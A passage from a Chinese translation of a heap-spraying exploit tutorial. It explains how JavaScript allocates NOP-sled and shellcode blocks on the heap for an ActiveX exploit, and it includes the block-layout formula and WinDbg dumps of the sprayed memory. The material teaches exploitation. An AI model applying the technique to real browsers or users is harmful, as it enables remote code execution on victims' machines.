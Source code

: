 [![](https://p5.ssl.qhimg.com/t01ea6612df46aa8865.png)](https://p5.ssl.qhimg.com/t01ea6612df46aa8865.png)

这足以提起你的兴趣。首先我们了解堆分配的过程, 接下来我们用它实现ActiveX的漏洞利用。<br>

**<br>**

**喷射shellcode块**

之前提到，堆喷射是一种payload传递技术，它充分利用了javascript的特性。先让我们在堆上分配一些简单字符串。

[![](https://p0.ssl.qhimg.com/t017c6dc87c3d276e01.png)](https://p0.ssl.qhimg.com/t017c6dc87c3d276e01.png)

下图可以看到我们成功在堆上分配ASCII字符串。记得用unescape否则我们的字符串将会是UNICODE。

[![](https://p3.ssl.qhimg.com/t01893e779a253fc15e.png)](https://p3.ssl.qhimg.com/t01893e779a253fc15e.png)

目前为止还不错, 但记住我们的目标是在堆上连续的分配NOP+Shellcode块. 稍微改变一下JS脚本如下：



[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01a244d218e3865796.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t015008e05c313b2ec8.png)

本质上来讲我们正在创建一个1000字节payload块，重复51次。下面是块的结构：<br>

```
"x90"*(1000-len(shellcode)) + shellcode
```

是时候用Windbg观察分配的情况了。下面是51个ASCII字符串分配结果。如果跟踪字符串的分配你会注意到开始的时候分配存在空隙，但是到后面的话基本上就是连续的。<br>

```
0:013&gt; s -a 0x00000000 L?7fffffff "FuzzySecurity"
02a4b03e  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
02a4b846  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
02a4c04e  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
[...Snip...]
0312e0f6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0312f0fe  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03130106  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
 
Looking at 02a4c04e we can see the alignment is not perfect as there are allot
of junk bytes between blocks:
 
0:013&gt; d 02a4c04e
02a4c04e  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
02a4c05e  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
02a4c06e  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
02a4c07e  00 00 00 00 00 00 00 00-00 00 59 c0 48 e8 00 01  ..........Y.H...
02a4c08e  28 ff d0 07 00 00 90 90-90 90 90 90 90 90 90 90  (...............
02a4c09e  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
02a4c0ae  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
02a4c0be  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
 
However if we start from the last block and look back in steps of 1000-bytes we
can see the allocations look pretty good!
 
0:013&gt; d 03130106-20
031300e6  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
031300f6  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
03130106  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03130116  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
03130126  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
```